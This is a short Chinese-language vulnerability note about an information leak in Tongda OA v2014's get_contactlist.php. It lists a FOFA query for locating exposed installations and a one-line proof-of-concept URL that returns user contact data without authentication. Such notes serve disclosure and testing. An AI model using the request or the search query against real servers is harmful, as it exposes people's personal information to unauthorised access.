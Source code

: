 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

```
通达OA v2014
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

版本信息

![image-20220520154718609](./images/202205201547687.png)

验证POC

```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![image-20220520154741599](./images/202205201547656.png)